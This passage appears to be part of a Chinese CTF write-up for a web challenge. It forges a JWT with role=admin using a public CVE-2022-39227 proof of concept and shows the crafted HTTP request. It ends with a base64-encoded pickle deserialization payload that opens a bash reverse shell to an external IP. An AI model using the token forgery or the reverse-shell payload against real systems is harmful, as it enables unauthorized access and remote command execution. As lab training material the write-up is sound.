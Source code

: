 接着就要构造jwt，这里利用[CVE-2022-39227](https://github.com/user0x1337/CVE-2022-39227)这个漏洞

> poc的用法 
>
> ```
> python3 cve_2022_39227.py -j <JWT-WEBTOKEN> -i "<KEY>=<VALUE>"
> ```

```
python main.py -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA5MzcxMDksImlhdCI6MTcxMDkzMzUwOSwianRpIjoiUFdCYU9MU1pKdGNUbDB1ZGpqNFROZyIsIm5iZiI6MTcxMDkzMzUwOSwicm9sZSI6Imd1ZXN0IiwidXNlcm5hbWUiOiJib29naXBvcCJ9.TZmuJn65uPPGzalHMQLQWz13J_bKa8FZkvYZ3mXoGALIQXXCJvNTmpTrvbPttBE1DSnGsSAdV4yYUTCpVbgSIZ1xRJPNCFe1zIW81QUpZIj9dFLvnXTnzejgDU6EDXCBts2YIjuHNgzq4A29j3j6hRBnRZRe420ltCU2LX9nzTTKeo5HxNzHUGHfl5PsA_D9gxRyLAtawIeyTrDheSEzYv6RLOXkdPAwK-zH57MYU_FuLr2JDRKxey372uxBReISv5FArNaHMk5y_BgvtxxjTl4S64XqGNnRrk8Xu0UQ8qLZezC1ZeCG_ErT4-CjkOm0p0VtkIHozrcx6TjF0G-n4A -i "role=admin"
```

通过get进行传参，让role=admin

```http
GET /?token={%22%20%20eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTA5MzcxMDksImlhdCI6MTcxMDkzMzUwOSwianRpIjoiUFdCYU9MU1pKdGNUbDB1ZGpqNFROZyIsIm5iZiI6MTcxMDkzMzUwOSwicm9sZSI6ImFkbWluIiwidXNlcm5hbWUiOiJib29naXBvcCJ9.%22:%22%22,%22protected%22:%22eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9%22,%20%22payload%22:%22eyJleHAiOjE3MTA5MzcxMDksImlhdCI6MTcxMDkzMzUwOSwianRpIjoiUFdCYU9MU1pKdGNUbDB1ZGpqNFROZyIsIm5iZiI6MTcxMDkzMzUwOSwicm9sZSI6Imd1ZXN0IiwidXNlcm5hbWUiOiJib29naXBvcCJ9%22,%22signature%22:%22TZmuJn65uPPGzalHMQLQWz13J_bKa8FZkvYZ3mXoGALIQXXCJvNTmpTrvbPttBE1DSnGsSAdV4yYUTCpVbgSIZ1xRJPNCFe1zIW81QUpZIj9dFLvnXTnzejgDU6EDXCBts2YIjuHNgzq4A29j3j6hRBnRZRe420ltCU2LX9nzTTKeo5HxNzHUGHfl5PsA_D9gxRyLAtawIeyTrDheSEzYv6RLOXkdPAwK-zH57MYU_FuLr2JDRKxey372uxBReISv5FArNaHMk5y_BgvtxxjTl4S64XqGNnRrk8Xu0UQ8qLZezC1ZeCG_ErT4-CjkOm0p0VtkIHozrcx6TjF0G-n4A%22} HTTP/1.1
Host: f8c1adf2-03c7-4d41-a6c0-5c3bde12b829.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://f8c1adf2-03c7-4d41-a6c0-5c3bde12b829.node5.buuoj.cn:81/
Cookie: session=eyJyb2xlIjoiZ3Vlc3QifQ.ZfrJNw.Uix84ZTCM9TKnr_Sdv0KQ2kJBsI
Upgrade-Insecure-Requests: 1
```

![image-20240320203033539](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240320203033539.png)

将这个解码，role等于admin就代表成功了

接着就是pickle反序列化，由于没有任何过滤，直接反弹shell

```python
import base64
opcode=b'''cos
system
(S"bash -c 'bash -i >& /dev/tcp/119.28.136.36/9001 0>&1'"
tR.
'''
print(base64.b64encode(opcode))
```
